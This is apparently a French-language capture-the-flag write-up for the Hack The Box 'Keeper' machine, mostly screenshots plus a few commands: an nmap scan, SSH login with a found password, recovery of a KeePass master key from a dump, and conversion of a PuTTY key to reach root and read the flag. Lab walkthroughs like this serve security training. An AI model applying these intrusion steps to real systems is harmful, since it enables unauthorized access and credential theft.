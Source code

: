 ```yaml
---
tags:
  - HTB
  - Machine
  - Box
  - Easy
---
```

# Keeper - Easy

### Objectif : 
Se connecter à la machine et trouver les flags de user.txt et root.txt

### Information :

AddressIP : **10.10.11.227**

### Process : 

##### Récolte d'information : 

###### Scan du réseau : 

```bash
# premier scan
nmap 10.10.11.227 -F
```

###### résultat du premier scan

![nmap keeper](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-02.png)

###### connexion au site 

![[Machine-Keeper-01.png]]
![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-03.png)


![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-04.png)

![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-05.png)

- chercher les users

![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-06.png)

on a deux utilisateurs : 

![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-07.png)
selectionnons le premier : 

![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-08.png)

###### connexion via ssh

```bash
ssh lnorgaard@10.10.11.227
# password : Welcome2023!
```

###### User flag 

![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-09.png)

###### Exfiltrer le Fichier zip

![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-10.png)
###### connaître le contenu du dump

![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-11.png)
###### Ouvrir la db Keepass

après avoir cherché le mot sur  google translate, on peut récupérer les vrai lettres

![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-11.png)
###### Se connecter en tant que root et avoir le flag root
![](../../Ressources/IMG/HTB/Machines/Keeper/Machine-Keeper-12.png)

- copier le code dans un fichier ppk puis le convertir en fichier pem

```bash
sudo vim rsa_key.ppk
[sudo] password for kali: 
┌──(kali㉿kali)-[/media/sf_linu/keepass-dump-masterkey]
└─$ puttygen rsa_key.ppk -O private-openssh -o rootkey.pem

┌──(kali㉿kali)-[/media/sf_linu/keepass-dump-masterkey]
└─$ ssh -i rootkey.pem  root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Sat Nov 11 07:03:16 2023 from 10.10.16.18
root@keeper:~# ls
root.txt  RT30000.zip  SQL
root@keeper:~# cat root.txt 
9efe54f32d7ba678b04083b130d69026
```
